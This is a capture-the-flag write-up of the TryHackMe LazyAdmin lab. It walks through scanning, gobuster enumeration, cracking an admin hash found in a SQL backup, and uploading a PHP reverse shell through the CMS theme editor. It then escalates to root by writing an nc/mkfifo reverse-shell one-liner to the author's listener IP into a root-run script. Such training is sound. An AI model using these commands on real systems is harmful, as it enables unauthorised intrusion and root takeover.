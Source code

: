 ```yaml
---
title:  "TryHackMe - LazyAdmin (Easy)"
description: "Easy Linux machine to practice your skills"
author: 0x5ubt13
date: 2021-01-17 14:30:00 +0000
categories: [Write-Ups]
tags: [write-up, OSCP, Pentesting, Ethical-Hacking, Password-Cracking, Easy, PHP-reverse-shell]
math: true
mermaid: true
image: /assets/images/write-ups/tryhackme/lazyadmin/lazyadmin_logo.png
---
```


Welcome to my second write-up, this time based on the room LazyAdmin from TryHackMe. This is the second of a series of rooms I will be covering on my personal Road to OSCP journey.

You can find the room for free in the following link: [TryHackMe - LazyAdmin](https://tryhackme.com/room/lazyadmin)

<p>&nbsp;</p>

# Reconnaissance:

First off as usual, we run our favourite scan to see what's for us in store.

```sh
ip=10.10.115.249
ports=$(nmap -p- --min-rate=1000 -T4 $ip | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
nmap -A -oN lazyadmin_initial.nmap -p$ports $ip
```

Since there's nothing special to see in the aggresive scan, I will paste a simplified scan, just to show port 80 and 22 are the only ones open and omitting the rest:

![Scan](/assets/images/write-ups/tryhackme/lazyadmin/scan.png)

Let's dive right into the website!

<p>&nbsp;</p>

# Scouting Port 80:

Upon connecting, we see the dull apache welcoming page:

![Def page](/assets/images/write-ups/tryhackme/lazyadmin/def_page.png)

Looks like it's GoBuster time!

In order to find some hidden directories, a simple Gobuster's command goes like this:

`gobuster -dir -w <your wordlist> -u <the target URL>`

Since this is an easy box, I will be using a small, default list:

`gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://10.10.115.249`

![GoBuster first scan](/assets/images/write-ups/tryhackme/lazyadmin/gobuster_1st_scan.png)

It looks like we have a finding: `/content/`.
If we jump in, we see again a simple default page, however this time we have more information: it's using a CMS called SweetRice.
Finding nothing else, it's time to use Gobuster again, this time adding the directory we found to the base URL:

`gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://10.10.115.249/content`

![Gobuster second scan](/assets/images/write-ups/tryhackme/lazyadmin/gobuster_2nd_scan.png)

Now we are finally advancing somewhere! Let's dig into those directories see what we find.

<p>&nbsp;</p>

# Enumerating Port 80:

I found something interesting whilst taking a peek into the `/inc` folder: an old database!

![Database found](/assets/images/write-ups/tryhackme/lazyadmin/database_found.png)
![Database found 2](/assets/images/write-ups/tryhackme/lazyadmin/database_found2.png)

We have several options now with this MySql database. One, would be to start an database service and load the backup; or we could just cat the code for a quicker, dirtier approach to avoid us some trouble if there was nothing really in there.

`cat mysql_bakup_20191129023059-1.5.1.sql`

Fortunately, there was indeed something valuable in there: the admin password hash! He was a lazy admin indeed...

![Hash found](/assets/images/write-ups/tryhackme/lazyadmin/hash_found.png)

<p>&nbsp;</p>

# Cracking the password:

I know using Hashcat or John The Ripper is really cool, but the quickest way of cracking any hash is just throwing it against rainbow tables in the internet and pray for it to be in the database. In case these fail, we can always sweat trying to crack it, but why going through the whole process if the title of the room is "LazyAdmin"?

![Password cracked](/assets/images/write-ups/tryhackme/lazyadmin/password_cracked.png)

Well, no surprise on this one, it really was a weak password!

<p>&nbsp;</p>

# Find Password, Use Password!

When we peeked over the database backup we found, we also saw the username "manager". Along with knowing the password, we are entitled now to try and login to the website's admin portal, located in one of the directories we enumerated with Gobuster. Enumeration matched with the login portal:

![Login](/assets/images/write-ups/tryhackme/lazyadmin/login.png)

![Admin panel](/assets/images/write-ups/tryhackme/lazyadmin/admin_panel.png)

<p>&nbsp;</p>

# Reverse shell

Once we are inside the admin panel in the website, we start enumerating what's inside. If we take a look inside Themes, we see we can manipulate php files to configure the website's theme with them. Well, smells like php reverse shell!!

![Reverse shell prep](/assets/images/write-ups/tryhackme/lazyadmin/reverse_shell_prep.png)

We will be using Pentest Monkeys' PHP reverse shell. Only thing we have to do is setting up our tun0 IP address and listening in the port we specify.

![Modifying theme php reverse shell](/assets/images/write-ups/tryhackme/lazyadmin/modifying_theme_php_reverse_shell.png)

Now, everything is prepared. All we have to do at this point is navigating to the `_themes` directory we enumerated earlier with Gobuster and finding the php file we edited. 

Set up the listener. 
Click. 
*We are in*. 

![We are in](/assets/images/write-ups/tryhackme/lazyadmin/we_are_in.png)

<p>&nbsp;</p>

# Privilege Escalation Phase

![Privesc prep](/assets/images/write-ups/tryhackme/lazyadmin/privesc_prep.png)

1. We try a quick `sudo -l` to check whether we can use any command as sudo with our current user... And yes!
2. We can call a perl script in the `/home/itguy/` directory without providing `sudo` password.
3. The content of `/home/itguy/backup.pl`. It's non-writable. We can see it's calling a script located in `/etc/` directory. Maybe we can write to it?
4. Taking a look at the permissions of the file, it looks like we can actually write to it and the owner is root!! Therefore, if we modify it to spawn a reverse shell in our ip, we should be able to pop a root shell. Let's try it out!

<p>&nbsp;</p>

# Pwning the machine

Now that we know we have access to that file, let's make it call a root bash reverse shell. 

Since nano is blocked and vi or vim are missing from the system, we can use `echo` redirect to write to a file. 
My full command looks like this:
```bash
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.0.124 5556 >/tmp/f" > /etc/copy.sh
```

Then, calling the perl script will promote us to boss level on the box:

```bash
sudo /usr/bin/perl /home/itguy/backup.pl
```

![Pwned](/assets/images/write-ups/tryhackme/lazyadmin/pwned.png)

<p>&nbsp;</p>


